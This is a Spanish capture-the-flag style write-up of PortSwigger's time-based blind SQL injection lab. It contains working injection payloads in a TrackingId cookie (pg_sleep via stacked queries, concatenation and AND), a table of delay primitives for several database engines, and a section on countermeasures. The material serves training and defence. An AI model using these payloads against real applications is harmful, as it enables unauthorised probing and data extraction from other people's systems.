

# Writeup: Blind SQL injection with time delays (PortSwigger)

- **Lab**: Blind SQL injection with time delays
- **URL**: https://portswigger.net/web-security/sql-injection/blind/lab-time-delays
- **Categoría**: SQL Injection → Blind SQL injection → Time-based
- **Dificultad**: Practitioner

---

## 1. Objetivo

El lab tiene una SQL injection en una **cookie de tracking**. La query que la usa se ejecuta de forma **asíncrona** y su resultado **no afecta a la respuesta HTTP**:

- No se reflejan datos en el body.
- No se devuelven errores de la DB.
- No hay diferencia visible entre una condición verdadera y una falsa.

Para resolver el lab basta con **provocar un retardo de 10 segundos** en la respuesta. No hay que extraer datos — sólo demostrar que controlamos el flujo de la DB usando el **tiempo** como único canal observable.

### Lo que ya sabemos antes de tocar nada

- **Punto de inyección**: cookie `TrackingId` (mismo patrón que los labs anteriores de la serie).
- **Categoría**: blind sin canal directo. Si error-based o boolean-based fueran posibles, no estaríamos en este lab.
- **Motor probable**: PostgreSQL (los labs de SQLi de PortSwigger se reparten entre PostgreSQL y otros, pero la familia "blind" suele apuntar a PostgreSQL → primitivo `pg_sleep`).

---

## 2. Baseline — saber a qué llamamos "rápido"

Para detectar un retardo, primero hay que saber cuánto tarda una request normal. Sin baseline, un `pg_sleep(10)` que no funcione puede confundirse con latencia genérica si el servidor estuviera lento.

Mandando la request original (con la cookie tal cual genera el lab) varias veces seguidas en Burp Repeater:

```
TrackingId=IgZYjlTKDUbUHRXD
→ 185 ms
→ 190 ms
→ 183 ms
```

Rango ~185ms, muy estable. Eso significa que **cualquier respuesta por encima de ~1s ya es señal clara** de que estamos influyendo en la query — y un retardo de 10s será inequívoco.

---

## 3. Confirmar que no hay canal visible

Antes de saltar a `pg_sleep`, conviene **descartar canales más cómodos**. Si la app filtrara errores o tuviera un boolean reflejado, sería más rápido y más preciso quedarse ahí. Dos tests rápidos:

### Test A — Comilla suelta (error-based)

```
Cookie: TrackingId=IgZYjlTKDUbUHRXD'
```

Mismo status, mismo body, mismo tiempo. **Sin error reflejado** → la app captura la excepción server-side. Descarta error-based.

### Test B — Boolean true vs. false

```
Cookie: TrackingId=IgZYjlTKDUbUHRXD' AND '1'='1
Cookie: TrackingId=IgZYjlTKDUbUHRXD' AND '1'='2
```

Las dos respuestas son **idénticas** (mismo length, mismo status, mismo tiempo). El resultado de la query no influye en la respuesta → descarta boolean-based.

Conclusión: el único canal que nos queda es **el tiempo de respuesta**. Toca usar `pg_sleep`.

---

## 4. Payload final — `pg_sleep` con stacked queries

### Construcción del payload

```
TrackingId=x'%3BSELECT+pg_sleep(10)--
```

Decodificado:

```
TrackingId=x';SELECT pg_sleep(10)--
```

Cómo se ve dentro del backend (asumiendo el patrón `WHERE id = '…'` que vimos en los labs anteriores):

```sql
SELECT ... FROM tracking WHERE id = 'x';SELECT pg_sleep(10)--'
                                  └─┘ └────────────────────┘
                                  q1                       q2
                                  válida (0 filas)         duerme 10s
                                                              ↑ -- comenta la ' final
```

Pieza por pieza:

- `x'` cierra la cadena del `WHERE id = '…'` → primera query parsea.
- `;` separa sentencias. PostgreSQL permite **stacked queries** cuando el driver no las bloquea (es el caso de este lab — JDBC/PG con multi-statement habilitado).
- `SELECT pg_sleep(10)` → segunda query, bloquea 10s antes de devolver.
- `--` comenta la `'` huérfana que la app añade al cerrar la query original.

### ⚠️ Detalle crítico: `;` como separador de cookies

El `;` es el delimitador de cookies en la cabecera `Cookie`. Si lo mandas literal, el servidor lee la cookie así:

```
Cookie: TrackingId=x'        ← cookie 1, valor "x'"
        SELECT pg_sleep(10)--; session=...   ← cookie 2 (basura) y luego session
```

…y el `pg_sleep` nunca llega a la query del backend. Por eso el `;` **tiene que ir URL-encoded como `%3B`** dentro del valor de la cookie. Es un detalle fácil de pasar por alto: en formularios o parámetros GET no haría falta porque `;` no es delimitador ahí.

Burp Repeater **no** URL-encodea automáticamente el cuerpo de los headers. Hay que escribirlo ya como `%3B`.

### Resultado real

```
TrackingId=x'%3BSELECT+pg_sleep(10)--
→ 200 OK
→ 10.087 ms
```

De 185ms a ~10s en una sola request. El body es idéntico al baseline (la query inyectada no afecta a la respuesta) — la única señal de que pasó algo es el tiempo.

Lab marcado como **Solved**.


---

## 5. ¿Por qué `pg_sleep` y no otra cosa?

`pg_sleep(N)` es el primitivo más limpio en PostgreSQL: bloquea el thread del backend durante N segundos sin efectos secundarios y sin necesitar permisos especiales. Equivalentes en otros motores, por si te encuentras un lab/objetivo con DB distinta:

| Motor | Primitivo de retardo |
|---|---|
| **PostgreSQL** | `SELECT pg_sleep(10)` |
| **MySQL / MariaDB** | `SELECT SLEEP(10)` |
| **MS SQL Server** | `WAITFOR DELAY '0:0:10'` |
| **Oracle** | `dbms_pipe.receive_message(('a'),10)` (no hay `SLEEP` puro; este recibe en pipe inexistente y timeoutea) |
| **SQLite** | No tiene función nativa de sleep — se simula con queries pesadas (`randomblob`/CTE recursiva) |

Si no sabes el motor de antemano, suele compensar probarlos en orden: PostgreSQL y MySQL cubren la mayoría de los casos web.

### Variantes equivalentes para este mismo lab

Stacked queries no es la única forma de meter el `pg_sleep`. Otras dos que también deberían funcionar aquí:

```
TrackingId=x'||pg_sleep(10)--
```
Concatenación. La técnica que vimos en `visible-error-based`. `||` es concat en PostgreSQL; el `pg_sleep` se evalúa como expresión y bloquea antes de concatenar.

```
TrackingId=x' AND pg_sleep(10)--
```
Cláusula `AND`. PostgreSQL evalúa `pg_sleep(10)` (devuelve `void`, que en contexto booleano se trata como `NULL`/falso, pero **se ejecuta igual** antes de evaluar la condición).

La que pone PortSwigger en su solución oficial es la de stacked queries (`%3BSELECT+pg_sleep(10)--`) y es la que probamos. Las otras dos quedan como deberes — útiles cuando el driver bloquea multi-statement.

---

## 6. Resumen de la cadena



Tres ideas clave que llevarse:

1. **Time-based es el "último recurso" de la jerarquía blind**: si tienes errores visibles → error-based. Si tienes diferencia true/false reflejada → boolean-based. Sólo cuando los dos primeros fallan tiene sentido pagar el coste de tiempo. Confirmar antes que no hay canal más cómodo es ~30s y ahorra horas en una explotación real.
2. **El baseline importa**: sin saber el tiempo "rápido", no puedes distinguir un retardo provocado de latencia normal. Manda 3-4 requests limpias antes de empezar a inyectar.
3. **`;` en cookies va siempre URL-encoded como `%3B`**. Trampa específica de inyectar en `Cookie` (vs. parámetros GET/POST donde el `;` no rompe nada). Se aplica también a otros caracteres con significado en la cabecera Cookie (`,` en algunos parsers).

---

## 7. Contramedidas

Defensas en orden de robustez:

1. **Consultas parametrizadas / prepared statements**. La defensa principal: el valor de la cookie viaja como parámetro, no se concatena al SQL. Sin concatenación, ni `'` ni `;` ni `pg_sleep` significan nada — son sólo bytes en los datos.
2. **Deshabilitar stacked queries en el driver**. Muchos drivers (JDBC, asyncpg, etc.) permiten configurar `allowMultiQueries=false` o equivalente. Bloquea `;<segunda query>` aunque haya inyección — el ataque se reduce a lo que se pueda hacer dentro de la primera sentencia.
3. **Statement timeout en la DB**. PostgreSQL: `statement_timeout = '5s'` por sesión/usuario. Mata cualquier query que dure más de N segundos. No previene SQLi pero limita time-based: si el timeout es 5s, `pg_sleep(10)` aborta antes de devolver y el atacante pierde precisión en la medición. Bonus: protege contra DoS por queries pesadas.
4. **Validación / allow-listing del valor de la cookie**: `TrackingId` es un identificador alfanumérico de longitud fija — un regex `^[a-zA-Z0-9]{16,32}$` bloquea cualquier payload de inyección antes de llegar a la DB.
5. **Privilegios mínimos en la conexión a la DB**: la cuenta que ejecuta queries de tracking no debería tener permiso para llamar a `pg_sleep` ni a funciones administrativas. Es defensa en profundidad — limita el daño aunque el resto falle.
6. **Monitoreo de latencia anómala**: queries de tracking que de pronto tardan 10s deberían disparar una alerta. Detectar el ataque en curso, aunque la inyección exista, permite cortar antes de que el atacante exfiltre datos vía time-based bit a bit (que es lo que viene en el siguiente lab).

---

## 8. Referencias

- PortSwigger Web Security Academy. (s.f.). *Lab: Blind SQL injection with time delays*. https://portswigger.net/web-security/sql-injection/blind/lab-time-delays
- PortSwigger Web Security Academy. (s.f.). *Blind SQL injection*. https://portswigger.net/web-security/sql-injection/blind
- PostgreSQL Documentation. (s.f.). *Delaying Execution — `pg_sleep`*. https://www.postgresql.org/docs/current/functions-datetime.html#FUNCTIONS-DATETIME-DELAY
- OWASP Foundation. (s.f.). *Blind SQL Injection*. https://owasp.org/www-community/attacks/Blind_SQL_Injection
- OWASP Foundation. (s.f.). *SQL Injection Prevention Cheat Sheet*. https://cheatsheetseries.owasp.org/cheatsheets/SQL_Injection_Prevention_Cheat_Sheet.html
- Inventario interno: [`inventario/03-analisis-vulnerabilidades/web/analisis-sql-injection.md`](../../../inventario/03-analisis-vulnerabilidades/web/analisis-sql-injection.md)
- Inventario interno: [`inventario/04-explotacion/web/explotacion-sqli.md`](../../../inventario/04-explotacion/web/explotacion-sqli.md)
